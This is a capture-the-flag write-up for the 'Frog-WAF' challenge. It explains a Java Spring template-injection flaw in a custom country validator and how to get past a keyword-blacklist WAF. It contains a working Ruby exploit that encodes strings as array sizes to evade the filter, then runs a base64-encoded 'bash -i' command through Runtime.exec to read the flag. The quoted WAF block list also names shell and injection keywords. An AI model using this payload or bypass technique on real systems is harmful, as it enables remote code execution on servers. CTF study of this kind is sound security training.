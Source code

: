 # Frog-WAF

![challenge](assets/chall.png)
- [dist.zip](assets/dist.zip)

## TL;DR

the challenge is about a Spring application that is vulnerable to SSTI via `buildConstraintViolationWithTemplate` in a custom validator, but with a very strict WAF and no outbound connections from the challenge box.

## Details

looking at the source, the app has an endpoint `/addContact`:
```java
    @PostMapping("/addContact")
    ResponseEntity<String> addContact(HttpSession session, @Valid @RequestBody Contact contact) {
        if (session.getAttribute(CONTACTS) == null) {
            session.setAttribute(CONTACTS, new ArrayList<Contact>());
        }
        val contacts = (ArrayList<Contact>) session.getAttribute(CONTACTS);
        contacts.add(contact);
        return ResponseEntity.ok("contact added");
    }
```
with a `@Valid` annotation for `Contact`, `country` field of `Contact` is validated with a custom validator class:
```java
@Getter
@Setter
@Entity
public class Contact {

    @Id
    @GeneratedValue
    private Long id;

    @NotNull
    @Pattern(regexp = "^[A-Z][a-z]{2,}$")
    private String firstName;

    @NotNull
    @Pattern(regexp = "^[A-Z][a-z]{2,}$")
    private String lastName;

    @NotNull
    @Pattern(regexp = "^[A-Z][a-z]{2,}$")
    private String description;

    @NotNull
    @CheckCountry
    private String country;

}
```
`CheckCountry`:
```java
@Target({FIELD, METHOD, PARAMETER, ANNOTATION_TYPE, TYPE_USE})
@Retention(RUNTIME)
@Constraint(validatedBy = CountryValidator.class)
@Documented
@Repeatable(CheckCountry.List.class)
public @interface CheckCountry {

    String message() default "Invalid country";

    Class<?>[] groups() default {};

    Class<? extends Payload>[] payload() default {};

    @Target({FIELD, METHOD, PARAMETER, ANNOTATION_TYPE})
    @Retention(RUNTIME)
    @Documented
    @interface List {
        CheckCountry[] value();
    }
}
```
it is validatedBy `CountryValidator`:
```java
public class CountryValidator implements ConstraintValidator<CheckCountry, String> {

    @SneakyThrows
    @Override
    public boolean isValid(final String input, final ConstraintValidatorContext constraintContext) {
        if (input == null) {
            return true;
        }

        val v = FrogWaf.getViolationByString(input);
        if (v.isPresent()) {
            val msg = String.format("Malicious input found: %s", v);
            throw new AccessDeniedException(msg);
        }

        val countries = StreamUtils.copyToString(new ClassPathResource("countries").getInputStream(), Charset.defaultCharset()).split("\n");
        val isValid = Arrays.asList(countries).contains(input);

        if (!isValid) {
            val message = String.format("%s is not a valid country", input);
            constraintContext.disableDefaultConstraintViolation();
            constraintContext.buildConstraintViolationWithTemplate(message)
                    .addConstraintViolation();
        }
            return isValid;
    }
}
```

but the field value is checked first using a WAF:

```java
        val v = FrogWaf.getViolationByString(input);
        if (v.isPresent()) {
            val msg = String.format("Malicious input found: %s", v);
            throw new AccessDeniedException(msg);
        }
```

here is the blacklist (our SSTI exploit must not include any of these):
```java
public enum AttackTypes {
    SQLI("\"", "'", "#"),
    XSS(">", "<"),
    OS_INJECTION("bash", "&", "|", ";", "`", "~", "*"),
    CODE_INJECTION("for", "while", "goto", "if"),
    JAVA_INJECTION("Runtime", "class", "java", "Name", "char", "Process", "cmd", "eval", "Char", "true", "false"),
    IDK("+", "-", "/", "*", "%", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9");

    @Getter
    private final String[] attackStrings;

    AttackTypes(String... attackStrings) {
        this.attackStrings = attackStrings;
    }

}
```

the issue mainly are quotes and numbers, so strings must be build using their char points at runtime. looking at the filter you can see that arrays are allowed. 

![array toString](assets/array.png)

Arrays are mainly what my encoder laveraged, for example to get number 5, i would create an array with 5 items then get its size:

![array size](assets/array_size.png)

here is the solver:

```ruby
require 'http'

def gen_s(s)
    a = <<E.strip!
    [].toString().getClass().getMethods()[#{Array.new(22, []).inspect}.size()].invoke([].toString(), [].size()).getClass().getMethods()[#{Array.new(5, []).inspect}.size()].invoke([].toString().getClass().getMethods()[#{Array.new(22, []).inspect}.size()].invoke([].toString(), [].size()), %s.size())
E
    r = []
    s.chars.each do |c|
        r << a % Array.new(c.ord, []).inspect
    end
    sr = ""
    r.each do
        if sr.length.zero?
            sr << _1
            next
        else
            sr << (".concat(%s)" % _1)
        end
    end
    sr
end

cn = gen_s("java.lang.Runtime")
# https://ares-x.com/tools/runtime-exec/
cmd = gen_s("bash -c {echo,Y2F0IC9mbGFnLSoudHh0}|{base64,-d}|{bash,-i}")
bcn = gen_s("java.util.Base64")

exp = <<E.strip!
[].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{cn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null).exec(#{cmd}).getInputStream()
E

r_exp = <<E.strip!
${[].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{bcn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null).getClass().getMethods()[#{Array.new(4, []).inspect}.size()].invoke([].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{bcn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null), #{exp}.readAllBytes())}
E

# url = "http://10.32.119.13:1337/addContact"
url = "http://frog-waf.chals.sekai.team/addContact"

r = HTTP.post(url, json: {"firstName": "test", "lastName": "test", "description": "test", "country": r_exp})
puts r
```

![solver.rb](assets/solver.png)

flag: `SEKAI{0h_w0w_y0u_r34lly_b34t_fr0g_wAf_c0ngr4ts!!!!}
`